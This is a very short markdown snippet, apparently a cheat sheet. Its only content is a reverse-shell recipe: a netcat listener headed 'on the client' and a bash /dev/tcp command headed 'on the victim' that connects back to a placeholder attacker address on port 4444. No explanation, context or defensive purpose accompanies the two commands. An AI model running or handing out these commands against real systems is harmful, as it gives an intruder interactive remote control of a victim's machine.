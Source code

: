 ## on the client 
```
nc -lvp 4444
```

## on the victim
```
bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1
```
